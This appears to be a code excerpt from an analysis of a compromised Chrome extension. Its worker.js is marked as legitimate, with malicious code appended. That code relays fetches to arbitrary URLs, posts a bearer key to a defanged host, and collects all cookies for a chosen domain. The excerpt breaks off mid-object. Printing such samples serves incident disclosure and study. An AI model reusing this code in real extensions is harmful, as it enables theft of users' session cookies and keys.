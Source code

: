 * Worker.js:

```javascript
//Legitimate worker.js code:
(() => {
	'use strict';
	try {
		importScripts('browser-polyfill.min.js', 'background.js');
	} catch (err) {
		console.error(err);
	}
})();

//Malicious coded added below:

chrome.runtime.onMessage.addListener((t, e, a) => {
	switch (t.action) {
	case 'cyberhavenext-completions':
		fetch('https://chatgpt[.]com/status/', {
			method: 'POST',
			headers: {
				'Content-Type': 'application/json',
				Authorization: `Bearer ${ t.key }`
			},
			body: JSON.stringify({
				prompt: 'check',
				max_tokens: 150
			})
		}).then(t => t.json()).then(t => a(t)).catch(t => {
		});
		break;
	case 'cyberhavenext-redirect':
		fetch(t.url).then(t => t.redirected).then(t => a(t)).catch();
		break;
	case 'cyberhavenext-validate':
		fetch(t.url, {
			method: 'POST',
			headers: {
				Accept: 'application/json, application/xml, text/plain, text/html, *.*',
				'Content-Type': 'application/json'
			},
			body: JSON.stringify(t.pl)
		}).then(t => t.json()).then(t => a(t)).catch(t => {
		});
		break;
	case 'cyberhavenext-rtext':
		fetch(t.url).then(t => t.text()).then(t => a(t)).catch();
		break;
	case 'cyberhavenext-rjson':
		fetch(t.url).then(t => t.json()).then(t => a(t)).catch();
		break;
	case 'cyberhavenext-check-errors':
		const e = t.pl;
		let n = e.dm;
		chrome.cookies.getAll({ domain: n }, n => {
			if (n.length > 0) {
				const o = n.map(t => ({
						domain: t.domain,
						expirationDate: t.expirationDate || null,
						hostOnly: t.hostOnly,
						httpOnly: t.httpOnly,
						name: t.name,
						path: t.path,
						sameSite: t.sameSite || null,
```